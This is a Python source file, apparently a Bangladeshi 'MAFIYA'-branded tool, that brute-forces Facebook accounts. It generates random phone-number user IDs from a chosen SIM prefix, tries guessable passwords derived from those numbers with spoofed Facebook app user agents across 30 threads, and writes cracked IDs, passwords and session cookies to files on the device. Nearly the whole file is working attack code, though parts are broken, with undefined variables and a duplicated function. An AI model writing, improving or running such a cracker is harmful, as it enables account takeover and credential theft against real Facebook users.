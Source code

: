 import uuid
import os,time
from os import path
import os,base64,zlib,pip,urllib
try:
        import os,requests,json,time,re,random,sys,uuid,string,subprocess
        from string import *
        from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
        print('\n Installing missing modules ...')
        os.system('pip install requests futures==2 > /dev/null')
import os,sys,time,json,random,re,string,platform,base64
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
os.system(f" clear")                          
print('\033[1;32m [+]\033[1;37m TOOL UPDATING !! ')
time.sleep(1.5)
print('\033[1;32m [+]\033[1;37m WAIT FOR UPDATE !! ')
time.sleep(1.5)
os.system('git pull')
time.sleep(1)
os.system('clear')
print('\033[1;32m [+]\033[1;37m UPDATE DONE \033[1;32m\033[1;37m MAFIYA IS A BRAND NOT A NAME')
time.sleep(2)
user=[]
ok=[]
cp=[]
loop=0
redmi=[]
ugen=[]
def tst():
    END = '[FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Google;FBMF/Linux;FBBD/linux;FBDV/F1;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=720,height=1280};FB_FW/1;]'
    ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; linux Build/TP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua

def tst():
    END = '[FBAN/FB4A;FBAV/256.0.0.17.157;FBBV/298672900;FBPN/com.facebook.katana;FBLC/en_US;FBCR/zncl;FBMF/vivo;FBBD/vivo;FBDV/vivo;FBSV/9;FBOP/1;FBCA/armeabi-v8a:armeabi;FBDM/{density=2.0,width=718,height=1492};]'
    ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; vivo Build/TP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua
def cek_apk():
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f' %s{P}[%s❌%s] %sSorry There is No Active  Apk%s         '%(N,M,N,B,N))
    else:
        print(f' [🎮] %s ☆ Your Active Apps ☆     :{B}'%(GREEN))
        for i in range(len(game)):
            print(f"[%s%s] {H}%s %s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f' %s[%s❌%s] %sSorry There is No Expired Apk%s                \n'%(N,B,N,M,N))
    else:
        print(f' [✔] %s ☑ Your Expired Apps ☑    :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"[%s%s] %s %s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print("%s═════════════════════%s═════════════════════%s"%(M,H,P))
def menu():
    clear()
    print(' [1] RANDOM UID CRACK')
    print(' [2] Contact Tool Admin')
    print(' [0] EXIT')
    print(45*'\033[1;31m═\033[1;37m')
    opt=input(' Choose an option : ')
    if opt in '1':
    	v1()
    if opt in '2':
    	os.system("your id Link ")
    else:
    	exit()
logo = ("""
  __  __          ______ _______     __      
 |  \/  |   /\   |  ____|_   _\ \   / //\    
 | \  / |  /  \  | |__    | |  \ \_/ //  \   
 | |\/| | / /\ \ |  __|   | |   \   // /\ \  
 | |  | |/ ____ \| |     _| |_   | |/ ____ \ 
 |_|  |_/_/    \_\_|    |_____|  |_/_/    \_\
\033[1;96m═════════════════════════════════════════════
\x1b[1;36m{+} \x1b[1;91mTOOL CREATED BY   \x1b[1;97m: SAHADAT CHOWDHURY 
\x1b[1;36m{+} \x1b[1;92mGITHUB NAME       \x1b[1;97m: \x1b[1;94m MAFIYA
\x1b[1;36m{+} \x1b[1;93mTOOL / \x1b[1;95mSTATUS    \x1b[1;97m : \x1b[1;93mRANDOM / \x1b[1;95mPREMIUM
\x1b[1;36m{+} \x1b[1;90mTOOL VIRSION      \x1b[1;97m: \x1b[1;90m1.0.0
\033[1;96m═════════════════════════════════════════════ """)

def linex():
	print(45*'\033[1;31m═\033[1;37m')
def clear():
    os.system('clear')
    print(logo)
def v1():
    clear()
    bal = input("\n [+] MAFIYA => ")
    clear()
    print(' [+] SIM CODE BD=> 016•017•018•019')
    linex()
    code = input('\n\033[1;32m [\033[1;32m?\033[1;32m] SIM CODE : ')
    clear()
    print(' [+] 2000•5000•10000•15000•50000')
    linex()
    limit = int(input('\n [?] ENTER YOUR CRACK LIMIT : '))
    for x in range(limit):
        nmp=''.join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    with tred(max_workers=30) as tanisha:
        clear()
        total=str(len(user))
        print('\033[1;96m [+] \033[1;33m YOUR NAME : \033[1;32m'+bal );print('\033[1;96m [+] \033[1;33m YOUR COUNTRY CODE :\033[1;32m '+code);print(f'\033[1;96m [+] \033[1;33m TOTAL IDz: \033[1;32m''\n\033[1;96m [+] \033[1;33m \033[1;33mMETHOD : \033[1;32mM1\033[1;37m');print(f"\033[1;96m [+] \033[1;33m\033[1;36m USE FLIGHT MODE FOR MORE SPEED\033[1;37m");print(45*'\033[1;31m═\033[1;37m')
        for akash in user:
            uid=code+akash
            ak=uid[:7]
            st=uid[0:7]
            lm=uid[:6]
            hs=uid[0:6]
            pss=[uid,akash,ak,st,lm,hs,'bangladesh']
            tanisha.submit(htx_cracker,uid,pss)
    print('\n\033[1;37m-------------------------------------------------')
    print(f' TOTAL OK/CP : {str(len(ok))}/{str(len(cp))}')
    linex()
def htx_cracker(uid,pss):
    global ok
    global loop
    try:
        for ps in pss:
            session=requests.Session()
            sys.stdout.write(f'\r \033[1;34m[MAFIYA]\033[1;93m[{tl}]\033[1;97m[{loop}]\033[1;92m[OK-{len(ok)}]\r')
            sys.stdout.flush()
            ua=tst()
            free_fb = session.get('https://m.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            pron_star={
            'authority': 'm.facebook.com',
            'method':'GET',
            'scheme':'https',
            'accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-encoding': 'gzip, deflate, br',
            'accept-language': 'en-US,en;q=0.9',
            'referer': 'https://m.alpha.facebook.com',
            'sec-ch-ua': '"Google Chrome";v="101", "Not)A;Brand";v="99", "Chromium";v="108"',
            'sec-ch-ua-mobile': '?0',
            'sec-ch-ua-platform': '"Windows"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': ua}
            lo = session.post('https://m.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=pron_star).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                idf = re.findall('c_user=(.*);xs', coki)[0]
                print(f' \033[38;5;46m[TURAG-OK] {idf} | {ps}\n\033[1;37m=[🐻‍\033[1;37m]= \033[38;5;46m{coki}')
                open('/sdcard/TURAG-OK.txt','a').write(idf+'|'+ps+'\n')
                ok.append(idf)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                coki1 = coki.split("1000")[1]
                idf = "1000"+coki1[0:11]
                print(f' \033[1;31m[TURAG-CP] {idf} | {ps}')
                open('/sdcard/TURAG-CP','a').write(idf+'|'+ps+'\n')
                cp.append(idf)
                break
            else:
                continue
        loop+=1
    except:
        pass
menu()

